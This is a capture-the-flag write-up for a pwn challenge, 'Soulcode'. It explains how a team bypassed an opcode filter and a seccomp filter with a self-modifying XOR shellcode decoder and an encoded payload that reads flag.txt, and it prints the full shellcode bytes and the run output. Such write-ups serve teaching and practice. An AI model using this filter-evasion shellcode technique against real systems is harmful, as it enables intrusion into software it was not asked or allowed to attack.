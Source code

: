 ```yaml
---
title: Soulcode
type: writeup
date: 2023-06-05T23:11:16+03:00
author: sunbather
tags:
  - pwn
---
```

# Soulcode

The challenge consisted of bypassing various filters to run a shellcode. 

## Main function decompiled


```c
bool main(void)

{
  int iVar1;
  long lVar2;
  undefined8 *puVar3;
  byte bVar4;
  undefined8 local_208;
  undefined8 local_200;
  undefined8 local_1f8 [62];
  
  bVar4 = 0;
  puts("Before you leave the realm of the dead you must leave a message for posterity!");
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stderr,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  local_208 = 0;
  local_200 = 0;
  puVar3 = local_1f8;
  for (lVar2 = 0x3c; lVar2 != 0; lVar2 = lVar2 + -1) {
    *puVar3 = 0;
    puVar3 = puVar3 + (ulong)bVar4 * -2 + 1;
  }
  *(undefined4 *)puVar3 = 0;
  read_string(&local_208,500,(undefined4 *)((long)puVar3 + 4)); // READ SHELLCODE FROM USER
  filter(&local_208,4);                                         // FILTER BAD OPCODES
  iVar1 = install_syscall_filter();                             // FILTER BAD SYSCALLS
  if (iVar1 == 0) {
    (*(code *)&local_208)();                                    // RUN SHELLCODE
  }
  return iVar1 != 0;
}
```

You can determine the 3 distinct, important steps that the program does:
1. Read shellcode from user.
2. Filter bad opcodes using the ``filter()`` function.
3. Filter bad syscalls using seccomp in ``install_syscall_filter()``.
4. Run shellcode.

The idea of the challenge was trying to bypass these filters. The forbidden opcodes/bytes were: ``0xCD``, ``0x80``, ``0x0F``, ``0x05``, ``0x89``.

Using ``seccomp-tools dump ./soulcode`` (tool: [seccomp-tools](https://github.com/david942j/seccomp-tools)), we can determine the seccomp-filters are:

```
 line  CODE  JT   JF      K
=================================
 0000: 0x20 0x00 0x00 0x00000004  A = arch
 0001: 0x15 0x01 0x00 0xc000003e  if (A == ARCH_X86_64) goto 0003
 0002: 0x06 0x00 0x00 0x00000000  return KILL
 0003: 0x20 0x00 0x00 0x00000000  A = sys_number
 0004: 0x15 0x00 0x01 0x0000000f  if (A != rt_sigreturn) goto 0006
 0005: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0006: 0x15 0x00 0x01 0x000000e7  if (A != exit_group) goto 0008
 0007: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0008: 0x15 0x00 0x01 0x0000003c  if (A != exit) goto 0010
 0009: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0010: 0x15 0x00 0x01 0x00000000  if (A != read) goto 0012
 0011: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0012: 0x15 0x00 0x01 0x00000001  if (A != write) goto 0014
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0014: 0x15 0x00 0x01 0x00000002  if (A != open) goto 0016
 0015: 0x06 0x00 0x00 0x7fff0000  return ALLOW
 0016: 0x06 0x00 0x00 0x00000000  return KILL
```
WARNING: The tool runs the executable, don't use with malware!!!

We can see the only syscalls we are allowed are ``open``, ``read``, ``write`` and ``exit``. This is enough to guess that we might have a ``flag.txt`` in the same directory and try to write its contents to stdout. The alternative to the tool was manually reading the ``install_syscall_filter()`` function and determining the filters, which sucks and nobody wants to do it.


## The solution

Our initial thought was that we have to bypass the forbidden opcodes. We didn't check the opcodes meaning, as there could have been a big number of instructions that containted them. So instead, we thought we can write a shellcode encrypter/decrypter that can decrypt a payload and run it. By having an encrypted payload we can use an arbitrary number of "forbidden" bytes and we only have to care to use permitted bytes in the code for the decrypter. During the CTF, we have taken the liberty to use an encrypter/decrypter (or encoder/decoder) found online, after modifying to fit the situation.

Credits to ired.team for most of the shellcode encoder/decoder: https://www.ired.team/offensive-security/code-injection-process-injection/writing-custom-shellcode-encoders-and-decoders

The interesting additions to the encoder is the ``xor_op`` label - the xorb operation we used there had a ``0x80`` byte in it, which is forbidden. To avoid that we substract one from the byte and then we add one at the beginning of the encoder, at runtime. This will pass the filters succesfully. Also, the encryption key ``0xc``, is picked with trial and error after checking for forbidden bytes after encryption.  

```asm
.global _start
.intel_syntax noprefix
_start:
	# deobfuscate xor_op
	xor rsi, rsi
	movb sil, [rip+xor_op+1]
	inc sil
	movb [rip+xor_op+1], sil
	jmp short shellcode

decoder:
	pop rax                 # store encodedShellcode address in rax - this is the address that we will jump to once all the bytes in the encodedShellcode have been decoded

setup:
	xor rcx, rcx            # reset rcx to 0, will use this as a loop counter
	mov rdx, 95

decoderStub:
	cmp rcx, rdx            # check if we've iterated and decoded all the encoded bytes
	je encodedShellcode     # jump to the encodedShellcode, which actually now contains the decoded shellcode

	# encodedShellcode bytes are being decoded here per our decoding scheme
	xor rdi, rdi
	movb dil, [rax]
	xor_op: .byte 0x40, 0x7f, 0xf7, 0x0c # obfuscated xor op
	movb [rax], dil

	inc rax                 # point rax to the next encoded byte in encodedShellcode
	inc rcx                 # increase loop counter
	jmp short decoderStub   # repeat decoding procedure

shellcode:
	call decoder            # jump to decoder label. This pushes the address of encodedShellcode to the stack (to be popped into rax as the first instruction under the decoder label)
	encodedShellcode: .byte 0x44, 0xcb, 0xcc, 0xe, 0xc, 0xc, 0xc, 0x44, 0x81, 0x31, 0x3a, 0xc, 0xc, 0xc, 0x44, 0x3d, 0xfa, 0x44, 0x3d, 0xde, 0x3, 0x9, 0x44, 0x85, 0xcb, 0x44, 0x3d, 0xcc, 0x44, 0x85, 0xea, 0x44, 0xcb, 0xce, 0x4c, 0xc, 0xc, 0xc, 0x3, 0x9, 0x44, 0xcb, 0xcc, 0xd, 0xc, 0xc, 0xc, 0x44, 0xcb, 0xcb, 0xd, 0xc, 0xc, 0xc, 0x3, 0x9, 0x44, 0xcb, 0xcc, 0x30, 0xc, 0xc, 0xc, 0x44, 0x3d, 0xf3, 0x3, 0x9, 0x6a, 0x60, 0x6d, 0x6b, 0x22, 0x78, 0x74, 0x78, 0xc
```

The encoded shellcode/payload is simply open ``flag.txt``, read and write to stdout, then exit:

```asm
.global _start
.intel_syntax noprefix
_start:
open:
	mov rax, 0x2
	lea rdi, [rip+flag]
	xor rsi, rsi
	xor rdx, rdx
	syscall

read:
	mov rdi, rax
	xor rax, rax
	mov rsi, rsp
	mov rdx, 0x40
	syscall

write:
	mov rax, 0x1
	mov rdi, 0x1
	syscall

exit:
	mov rax, 0x3c
	xor rdi, rdi
	syscall


flag:
	.string "flag.txt"
```

Then we get the shellcode for everything (check out [getsc](https://github.com/dothidden/tools/blob/main/pwn/getsc)) and we end up with the following payload:  
``\x48\x31\xf6\x40\x8a\x35\x23\x00\x00\x00\x40\xfe\xc6\x40\x88\x35\x19\x00\x00\x00\xeb\x25\x58\x48\x31\xc9\x48\xc7\xc2\x5f\x00\x00\x00\x48\x39\xd1\x74\x1a\x48\x31\xff\x40\x8a\x38\x40\x7f\xf7\x0c\x40\x88\x38\x48\xff\xc0\x48\xff\xc1\xeb\xe6\xe8\xd6\xff\xff\xff\x44\xcb\xcc\x0e\x0c\x0c\x0c\x44\x81\x31\x3a\x0c\x0c\x0c\x44\x3d\xfa\x44\x3d\xde\x03\x09\x44\x85\xcb\x44\x3d\xcc\x44\x85\xea\x44\xcb\xce\x4c\x0c\x0c\x0c\x03\x09\x44\xcb\xcc\x0d\x0c\x0c\x0c\x44\xcb\xcb\x0d\x0c\x0c\x0c\x03\x09\x44\xcb\xcc\x30\x0c\x0c\x0c\x44\x3d\xf3\x03\x09\x6a\x60\x6d\x6b\x22\x78\x74\x78\x0c``

We then run the payload:  
```
$ echo -ne "\x48\x31\xf6\x40\x8a\x35\x23\x00\x00\x00\x40\xfe\xc6\x40\x88\x35\x19\x00\x00\x00\xeb\x25\x58\x48\x31\xc9\x48\xc7\xc2\x5f\x00\x00\x00\x48\x39\xd1\x74\x1a\x48\x31\xff\x40\x8a\x38\x40\x7f\xf7\x0c\x40\x88\x38\x48\xff\xc0\x48\xff\xc1\xeb\xe6\xe8\xd6\xff\xff\xff\x44\xcb\xcc\x0e\x0c\x0c\x0c\x44\x81\x31\x3a\x0c\x0c\x0c\x44\x3d\xfa\x44\x3d\xde\x03\x09\x44\x85\xcb\x44\x3d\xcc\x44\x85\xea\x44\xcb\xce\x4c\x0c\x0c\x0c\x03\x09\x44\xcb\xcc\x0d\x0c\x0c\x0c\x44\xcb\xcb\x0d\x0c\x0c\x0c\x03\x09\x44\xcb\xcc\x30\x0c\x0c\x0c\x44\x3d\xf3\x03\x09\x6a\x60\x6d\x6b\x22\x78\x74\x78\x0c" | ./soulcode 
Before you leave the realm of the dead you must leave a message for posterity!
DANTE{.hidden_is_the_best}
�%XH1�H��_H9�t�H1�@�8@��
                        @�8H��H�
```
